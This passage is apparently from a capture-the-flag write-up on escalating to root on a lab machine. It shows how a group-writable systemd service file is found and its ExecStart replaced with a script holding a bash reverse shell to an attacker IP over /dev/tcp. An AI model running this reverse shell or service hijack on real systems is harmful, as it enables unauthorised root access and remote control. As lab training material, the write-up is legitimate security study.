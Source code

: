 We can see that systemd is running a purge-backups.sh script every so often. We can check the service files for systemd in /etc/systemd/system.

```
zabbix@zipper:/etc/systemd/system$ ls -al
total 64
drwxr-xr-x 13 root root   4096 Oct  2 13:18 .
drwxr-xr-x  5 root root   4096 Sep  8 06:42 ..
lrwxrwxrwx  1 root root     44 Sep  8 06:40 dbus-org.freedesktop.resolve1.service -> /lib/systemd/system/systemd-resolved.service
drwxr-xr-x  2 root root   4096 Sep  8 06:43 default.target.wants
drwxr-xr-x  2 root root   4096 Sep  8 06:43 emergency.target.wants
drwxr-xr-x  2 root root   4096 Sep  8 06:40 getty.target.wants
drwxr-xr-x  2 root root   4096 Sep  8 06:43 graphical.target.wants
drwxr-xr-x  2 root root   4096 Oct  2 13:18 multi-user.target.wants
drwxr-xr-x  2 root root   4096 Oct  2 13:18 network-online.target.wants
-rw-rw-r--  1 root zapper  132 Sep  8 13:22 purge-backups.service
-rw-rw-r--  1 root zapper  237 Sep  8 13:22 purge-backups.timer
drwxr-xr-x  2 root root   4096 Sep  8 06:43 rescue.target.wants
drwxr-xr-x  2 root root   4096 Sep  8 07:11 sockets.target.wants
lrwxrwxrwx  1 root root     31 Sep  8 06:49 sshd.service -> /lib/systemd/system/ssh.service
-rw-r--r--  1 root root    147 Sep  8 13:03 start-docker.service
drwxr-xr-x  2 root root   4096 Sep  8 06:43 sysinit.target.wants
lrwxrwxrwx  1 root root     35 Sep  8 06:41 syslog.service -> /lib/systemd/system/rsyslog.service
drwxr-xr-x  2 root root   4096 Sep  8 06:41 timers.target.wants
drwxr-xr-x  2 root root   4096 Sep  8 13:24 zabbix-agent.service.wants
```

We can see the purge-backups.service allows Zapper to write.

```
zabbix@zipper:/etc/systemd/system$ cat purge-backups.service
[Unit]
Description=Purge Backups (Script)
[Service]
ExecStart=/root/scripts/purge-backups.sh
[Install]
WantedBy=purge-backups.timer
```

So now all that's left to do is replace ExecStart with a script of our choosing.

We place a simple bash reverse shell in /tmp.

```
#!/bin/bash 
bash -i >/dev/tcp/10.10.14.30/443 0<&1
```

```
zapper@zipper:/etc/systemd/system$ chmod +x /tmp/shell.sh
```

Edit the contents of purge-backups.service.

```
[Unit]
Description=Purge Backups (Script)
[Service]
ExecStart=/tmp/shell.sh
[Install]
WantedBy=purge-backups.timer
```
